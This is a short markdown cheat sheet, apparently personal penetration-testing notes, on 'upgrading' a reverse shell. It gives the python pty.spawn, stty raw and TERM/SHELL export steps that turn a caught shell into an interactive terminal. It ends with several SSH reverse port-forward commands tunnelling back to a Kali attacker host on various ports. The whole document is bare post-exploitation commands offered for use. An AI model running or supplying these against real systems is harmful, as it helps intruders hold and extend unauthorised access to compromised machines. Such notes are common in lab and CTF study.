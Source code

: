 # Upgrading Reverse Shell


```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

`(Ctl + z)` 

```
stty raw -echo; fg
```

```
xterm-256color 
```

```
export TERM=xterm-256color 
```

```
export SHELL=/bin/bash
```

```
stty rows 27 columns 77
```

### SSH

```
ssh -N -f -R 127.0.0.1:9080 127.0.0.1:9080 kali@192.168.122.209 -p 55555
```

### APP1

```
ssh -N -f -R 127.0.0.1:9080 127.0.0.1:9080 kali@192.168.122.209 -p 55556
```

### SOC4

```
ssh -N -f -R 127.0.0.1:9080 127.0.0.1:9080 kali@192.168.122.209 -p 55557
```

### DEFAULT

```
ssh -N -f -R 127.0.0.1:9080 127.0.0.1:9080 kali@192.168.122.209 -p 61775
```
